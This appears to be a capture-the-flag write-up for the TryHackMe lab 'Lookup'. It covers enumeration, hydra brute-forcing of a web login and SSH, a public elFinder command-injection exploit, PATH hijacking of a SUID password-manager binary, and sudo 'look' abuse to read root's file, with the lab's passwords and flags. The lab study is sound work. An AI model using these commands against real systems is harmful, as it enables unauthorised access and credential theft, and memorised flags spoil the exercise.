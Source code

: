
[[TryHackMe]] Room

**Date**: 17/01/25
**Target IP**: 10.10.88.15

---

## **Initial Scanning**

**Nmap Results:**
- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

---
## **Exploration and Enumeration**

Login Page discovered at **Port 80**. Wrong password alert allows user enumeration leading to discovery that ==`admin`== user exists.

**DirSearch Results**:

```bash
Target: http://lookup.thm/

[11:47:15] Starting: 
[11:47:23] 403 -  275B  - /.ht_wsr.txt
[11:47:23] 403 -  275B  - /.htaccess.bak1
[11:47:23] 403 -  275B  - /.htaccess.sample
[11:47:23] 403 -  275B  - /.htaccess.orig
[11:47:23] 403 -  275B  - /.htaccess.save
[11:47:23] 403 -  275B  - /.htaccess_sc
[11:47:23] 403 -  275B  - /.htaccess_extra
[11:47:23] 403 -  275B  - /.htaccess_orig
[11:47:23] 403 -  275B  - /.htaccessBAK
[11:47:23] 403 -  275B  - /.htaccessOLD
[11:47:23] 403 -  275B  - /.htm
[11:47:23] 403 -  275B  - /.htaccessOLD2
[11:47:23] 403 -  275B  - /.html
[11:47:23] 403 -  275B  - /.htpasswd_test
[11:47:23] 403 -  275B  - /.httr-oauth
[11:47:23] 403 -  275B  - /.htpasswds
[11:47:24] 403 -  275B  - /.php
[11:47:47] 200 -    1B  - /login.php
[11:47:58] 403 -  275B  - /server-status/
[11:47:58] 403 -  275B  - /server-status
```

Ran [[hydra]] to brute-force the login page using the username admin : 

```bash
❯ hydra -l admin -P /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt lookup.thm -s 5000 http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password." -I -vV -c 3
```

Brute-forcing appears successful : 

```
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```

However, this is not the correct password for the admin user. Rather when using this combination despite using an existing username, we obtain the message : `Wrong username or password. Please try again. Redirecting in 3 seconds.` 

This may be indicative that the password exists in the database but is for another user. We thus iterate through a username list with the password obtained: 

```bash
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Please try again." -I -vV -t 30
```

We obtain the following:

```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

---
## **Exploitation**

On logging in successfully, we obtain an elFinder file management page. The files seem to be full of random text.

`credentials.txt` possesses the credentials `think : nopassword`.

Inspecting the version of elFinder we discover it is **2.1.47**. There exists a known exploit which can be used to gain a shell through command injection. https://www.exploit-db.com/exploits/46481

We use this and gain a shell as **www-data** :

```bash
❯ python2.7 exploit.py http://files.lookup.thm/elFinder
```

We can [[Shell Upgrade]] if necessary.



---
## **Post-Exploitation**

Running linpeas gives the following :

```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```

Running this binary outputs the following :

```bash
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Running strings on this file allows us to deduce that this is some sort of password manager script that runs the `id` command to check who the current use is.  This can be vulnerable as it does not seem to be running `/bin/id`, meaning we can create our own `id` script and fool it into running it.

This is done as follows : 

```bash
www-data@lookup:/tmp$ export PATH="/tmp:$PATH"

www-data@lookup:/tmp$ echo '#!/bin/bash' > /tmp/id

www-data@lookup:/tmp$ echo "echo 'uid=1000(think) gid=1000(think) groups=1000(think)'" >> /tmp/id

www-data@lookup:/tmp$ chmod +x id

www-data@lookup:/tmp$ /usr/sbin/pwm
```

We obtain a list of passwords used by the think user.

We can use these to brute-force SSH into said user with [[hydra]] :

```bash
❯ hydra -l think -P ./jose_passwords lookup.thm ssh -t 4

[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)

```

We thus obtain the **user flag** ( /home/think/user.txt ) :
**38375fb4dd8baa2b2039ac03d92b820e**

---
## **Escalation**

```
think@lookup:~$ sudo -l

User think may run the following commands on lookup:
(ALL) /usr/bin/look
```

think can run `/usr/bin/look` as sudo. We can thus refer to [GTFOBins](https://gtfobins.github.io/) and gain privileged access to the `/root/root.txt` file to read it as follows : 

```bash
think@lookup:~$ sudo look -bdf "" /root/root.txt
```

We thus obtain the Root Flag :
**5a285a9f257e45c68bb6c9f9f57d18e8**

---
## **Summary**

- Login Page credentials : **jose:password123**
- elFinder 2.1.47 command injection exploit (https://www.exploit-db.com/exploits/46481)
- Create malicious `id` binary and exploit `/usr/sbin/pwm`
- think user SSH password : **josemario.AKA(think)**
- User Flag ( /home/think/user.txt ) : **38375fb4dd8baa2b2039ac03d92b820e**
- Exploit /usr/bin/look sudo access (  [GTFOBins](https://gtfobins.github.io/))
- Root Flag ( /root/root.txt ) : **5a285a9f257e45c68bb6c9f9f57d18e8**